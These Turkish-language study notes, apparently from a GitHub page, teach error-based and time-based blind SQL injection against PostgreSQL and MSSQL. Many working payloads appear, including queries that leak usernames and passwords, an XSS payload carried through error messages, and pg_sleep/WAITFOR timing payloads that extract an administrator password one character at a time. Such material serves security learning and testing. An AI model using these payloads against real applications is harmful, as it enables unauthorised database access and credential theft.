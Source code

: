 ##### **İkinci kısım: Hata tabanlı SQLi ye yönelik sorular ?  :**
**Soru - 1) CAST işlevi farklı şekillerde kullanılabilir mi ?**
		Sorguyu daha da kısaltmanın bir yolu vardır. Normal sorgunun CAST alanını çıkararak ve sonuna ::int(dönüştürülmek istenen değer) yazarak gerçekleşir sorguda şöyle gözükür:
		`AND 1=(SELECT password FROM users LIMIT 1)::int`
**Soru - 2) Veri tipi doğrulamada bir veya birden fazla veri aynı satırda gösterilebilir mi ?** 
		Eğer girdinin ve çıktının bir sınırı yok ise veritabanına göre concat işlevi yapılarak çıktı genişletilir. `AND 1=(SELECT username||password FROM users LIMIT 1)::int--`
**Soru - 3) Peki LIMIT 1 ile ilk satırı aldığımıza göre diğer satırları almak için ne yapmamız lazım** 
		`AND 1=(SELECT username FROM users LIMIT 1 OFFSET 1)::int--`
**Soru - 4) `more than one row` hatasını en kolay nasıl aşabiliriz ?**
		` AND 1=(SELECT string_agg(username,',')FROM users)::int--` PostgreSQL de aggregate(toplayıcı) fonksiyonudur. bütün satırları tek bir liste haline getirir. `<ifade> , <ayırıcı> [ ORDER BY <kolon> ] ` şeklinde çalışır.
**Soru - 5) Başka bir sorgu yapısı kullanılabilir mi ?**
		Evet. Mantıksal tabanlı sorgular burada da kullanılabilir örnek: `'AND 1=(CASE WHEN(1=1)THEN 1/0 ELSE 1 END)-`
**Soru - 6) Hatayı siteye direkt yazdırıyor ise Başka saldırılara yol açabilir mi ?**
		Evet. Filtrelemeden direkt yazdırdığı için XSS gibi zafiyetler çalışabiliyor.
		`'AND (SELECT '<script>alert(2)</script>'::int)--`


## Time‑Based Blind SQL Injection:
Uygulama, SQL hatalarını yakalayıp kullanıcıya hiçbir fark göstermiyorsa (örneğin tüm hataları “bir sorun oluştu” sayfasına yönlendiriyorsa), error‑based yöntemler etkisiz kalır. Bu durumda, sorgu şartına bağlı olarak **zamansal gecikme** (delay) tetikleyerek true/false’i ölçeriz.

SQL sorgusunu bozmadan, içine koşula bağlı bir `WAITFOR DELAY` (MSSQL) veya `pg_sleep` (PostgreSQL) gibi bir komut yerleştiririz. Koşul doğruysa bekleme süresi çalışır ve HTTP yanıtı gecikir; yanlışsa hemen yanıt döner. Yanıt süresi sayesinde “koşul doğru mu?” sorusuna yanıt buluruz. Örnek :
```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--   -- koşul false → **no delay**  
'; IF (1=1) WAITFOR DELAY '0:0:10'--   -- koşul true → **10 sn delay**  
```
Karakter karakter veri çekmek için yazabileceğimiz sorgu :
```sql
; IF ( SELECT COUNT(*) FROM Users WHERE Username='Administrator' AND SUBSTRING(Password,1,1)> 'm' ) = 1 WAITFOR DELAY '0:0:3'-- Bu sorgular veritabanına göre değişim göstermektedir!
```

Örnek bir uygulama ile de gösterelim. Veritabanı Postgresql. sistemi test etmek için
`'; pg_sleep(5)--` önceki sorguyu kapatıp yeri sorgu ile sistemi geciktirebilinir.
`'| pg_sleep(5)--` eğer int ise concat yaparak fonksiyonun çalışması sağlanır.
`'|| pg_sleep(5)--` eğer string ise fonksiyon çalışır.

**Ara bilgi :**
pg_sleep CASE gibi karşılaştırma yaptığımız Diğer yöntemlerle birlikte (AND, OR) operatörleri ile çalışmaz hata verir çünkü;
pg_sleep() fonksiyonu hiçbir değer döndürmez sadece şu kadar saniye bekle der. Döndürdüğü hiçbir sonuç olmadığı için bunlara void fonksiyonlar denir. Peki void fonksiyon neden sorun çıkartır?
Beraber çalıştığı fonksiyon eğer geriye bir değer bekliyor ve değer void geliyorsa uygulama pg_sleep() çalıştırmak yerine hata veriyor. Tabii istisna durumlar var. `OFFSET`, or veya and olmadan`SELECT CASE WHEN`  komutu gibi 
**Hata veren sorgu :**
Sorgu -`'OR (SELECT CASE WHEN true THEN pg_sleep(5) END)--`  Burada `OR` bir boolean beklenti durumunda.
Hata - `ERROR: argument of OR must be type boolean, not type void`
Hata vermek yerine pg_sleep() çalıştıran sorgu:
`'OFFSET (SELECT COUNT(*) FROM pg_sleep(5))'`
